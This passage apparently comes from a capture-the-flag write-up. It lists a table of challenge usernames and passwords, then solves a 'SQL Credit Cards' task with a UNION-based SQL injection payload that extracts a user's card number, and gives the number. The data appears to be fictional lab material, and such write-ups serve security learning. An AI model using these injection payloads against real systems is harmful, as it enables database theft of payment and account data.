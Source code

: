 ```php
    }
}
```

#### Cheat Table 1

| username   | password                   |
| :--------- | :------------------------- |
| admin      | Gu3ss_Myp4s%w0rd**         |
| bender     | b1t3-my-shiny-m3t4l-4$$    |
| fry        | w4ts-w/-th3-17-dungbeetles |
| farnsworth | P4zuzu!!                   |
| scruffy    | Im_0n-br3ak                |
| zoidberg   | sp4r3-ch4ng3#$$$           |

### SQL Credit Cards (100 Points)

Find the credit card number

Get the credit card number for user: `farnsworth`

Enter the credit card number here

#### Solution 3-2

1. Enter

```plain
'
```

2. So, the SQL is

```sql
SELECT username FROM credit_cards WHERE username='$1' COLLATE NOCASE
```

3. I have tried many times to find out the credit card number field name. Finally, I found it is `card`.

Enter

```plain
' and 1 = 2 union SELECT card FROM credit_cards WHERE username='farnsworth
```

You will get the credit card number.

4. Enter

```plain
4784981000802194
```

#### Cheat Table 2
